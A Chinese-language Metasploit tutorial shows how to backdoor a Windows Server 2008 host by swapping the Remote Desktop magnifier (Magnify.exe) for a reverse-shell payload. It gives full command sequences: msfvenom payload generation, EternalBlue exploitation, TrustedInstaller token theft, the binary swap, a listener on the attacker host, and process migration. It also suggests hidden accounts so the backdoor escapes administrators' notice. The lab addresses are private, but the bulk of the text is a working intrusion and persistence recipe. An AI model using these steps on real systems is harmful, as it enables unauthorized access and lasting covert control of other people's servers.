

[Metasploit]-9-利用Windows远程桌面功实现Payload后门
引言
在Windows远程桌面界面中，集成了一些系统辅助功能，这些功能包含"屏幕键盘"、"放大镜"、"讲述人"等，微软将这些功能集成在登录界面里面本来是为了方便使用者，而这些程序无需用户登录就能执行，这样的设计就会让一些程序有机可乘，只要替换了其中某一个程序，就能绕过登录，直接启动替换后的程序。
文章目录
0×1.Windows远程桌面功能简介
首先来看一下远程桌面提供的这些功能，请看下面的截图：
其中每一个功能，都是保存在"C:\Windows\System32"目录中的一个应用程序，比如上图中的"轻松访问"这个程序窗口，在System32目录中程序名叫"Utilman.exe"；屏幕键盘程序名称是"osk.exe"；放大镜的程序名称是"Magnify.exe"；讲述人程序名称为"Narrator.exe"；高对比度、粘滞键、筛选键都使用了程序"sethc.exe"提供的功能。
我们知道这些程序能够在登录前被启动，也知道这些程序的位置以及名称，那么如果将其中的某个程序替换成上一篇文章中讲解的Payload ShellCode，启动这个替换后的程序，就会执行Payload，远程连接Payload中指定的IP地址，从而让攻击者得到一个ShellCode。
唯一需要注意的是，所有"轻松访问"里能够调用的这些程序的父进程都是"Utilman.exe"，而"Utilman.exe"的父进程又是"远程桌面"这个服务进程，所以，只要父进程被关闭，子进程也会随即结束，当使用这种方法得到一个ShellCode后，为了保持连接稳定性，要么将这个ShellCode的进程迁移到其他进程，要么直接给系统添加一个隐藏账号，使用这个账号的图形界面登录系统，操作完成退出时再删除这个账号，具体请看本文第二部分的实例。
0×2.如何替换Windows远程桌面功实现Payload后门
当我们使用漏洞成功得到一台Windows服务器的控制权后，为了防止漏洞被修补，往往会留下一些后门程序，但常驻进程的后门程序太过占用系统资源，而且很容易被管理员发现，这个时候，我们可以使用本文的方法，替换远程桌面功能，实现一个手动触发的Payload后门。
实验环境如下：
×攻击主机 Kali 192.168.80.158
×目标靶机 Windows2008 x64 192.168.80.139
#首先在Kali上，生成一个Payload可执行文件，这个Payload一旦执行，就会主动连接192.168.80.158的9988端口，返回一个Meterpreter ShellCode root@kingsword:~# msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp lhost=192.168.80.158 lport=9988 -e x64/xor -i 4 -f exe -o /root/qingsword.exe -b '\x00' #然后启动msf控制台，使用"永恒之蓝"漏洞进入Win2008 root@qingsword.com:~# msfdb run msf > use exploit/windows/smb/ms17_010_eternalblue msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp payload => windows/x64/meterpreter/reverse_tcp msf exploit(windows/smb/ms17_010_eternalblue) > set rhost 192.168.80.139 rhost => 192.168.80.139 msf exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.80.158 lhost => 192.168.80.158 msf exploit(windows/smb/ms17_010_eternalblue) > set lport 9876 lport => 9876 msf exploit(windows/smb/ms17_010_eternalblue) > exploit #等待服务器加载Payload后，我们首先需要获得系统TrustedInstaller权限，方便修改替换文件 #进入系统shell，启动TrustedInstall服务，然后窃取TrustedInstaller.exe进程的Token meterpreter > shell #启动服务 C:\Windows\system32>sc start trustedinstaller C:\Windows\system32>exit #查看TrustedInstaller.exe进程PID meterpreter > ps 2408 496 TrustedInstaller.exe x64 0 NT AUTHORITY\SYSTEM #窃取TrustedInstaller.exe进程Token，这样当前meterpreter就具有了TrustedInstaller权限 meterpreter > steal_token 2408 #现在将我们生成的qingsword.exe上传到目标系统目录中（注意，在meterpreter中，win目录都需要使用双斜杠） meterpreter > upload qingsword.exe C:\\windows\\system32 #进入系统shell，将Magnify.exe（放大镜）程序替换成我们的Payload meterpreter > shell #将原文件备份一下 C:\Windows\system32>move Magnify.exe Magnify.bk move Magnify.exe Magnify.bk 移动了 1 个文件。 #将qingsword.exe改名为Magnify.exe C:\Windows\system32>move qingsword.exe Magnify.exe move qingsword.exe Magnify.exe #现在我们可以退出这个shell，断开当前使用"永恒之蓝"获取到的Meterpreter ShellCode C:\Windows\system32>exit meterpreter > exit #这样我们就将Payload后门藏在了靶机远程桌面的放大镜程序调用那里，如果想重新连接服务器，就算它"永恒之蓝"这个漏洞已经被修补也没有关系 #如果现在想打开后门连接上服务器，先加载空Exploit，然后设置一个和上面生成Payload后门应用一样的Payload msf > use exploit/multi/handler msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp payload => windows/x64/meterpreter/reverse_tcp msf exploit(multi/handler) > set lport 9988 lport => 9988 msf exploit(multi/handler) > set lhost 192.168.80.158 lhost => 192.168.80.158 msf exploit(multi/handler) > exploit [*] Started reverse TCP handler on 192.168.80.158:9988 #现在打开靶机的远程桌面，启动放大镜程序，看看是不是返回了一个Meterpreter Shellcode，但这个连接不会持续太长时间，远程桌面登录会有一个超时时间，所以要尽快将进程迁移到其他进程中 #显示当前进程列表 meterpreter > ps 752 2168 explorer.exe x64 1 WIN-9PV48KN2GGU\Administrator #将meterpreter进程迁移到explorer.exe进程中 meterpreter > migrate 752 [*] Migrating from 2976 to 752...
文章配套小视频[点击这里][提取码 k7ht]，下载观看